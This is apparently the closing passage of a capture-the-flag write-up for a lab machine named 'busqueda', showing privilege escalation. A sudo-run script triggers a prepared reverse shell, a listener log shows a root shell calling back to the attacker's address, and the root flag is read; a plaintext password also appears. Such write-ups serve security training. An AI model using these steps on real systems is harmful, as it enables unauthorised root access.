Now run the following command to get our bash script containing the reverse shell executed:

```shell
sudo python3 /opt/scripts/system-checkup.py full-checkup
# Enter password if asked
jh1usoih2bkjaspwe92
```

Nice! We got a response on our nc listener giving us a shell as root:

```shell
listening on [any] 8080 ...
connect to [10.10.14.206] from (UNKNOWN) [10.129.228.217] 44758
root@busqueda:/tmp# whoami
whoami
root
```

### Root Flag
Now we can get the root.txt flag:

```shell
cat /root/root.txt
```

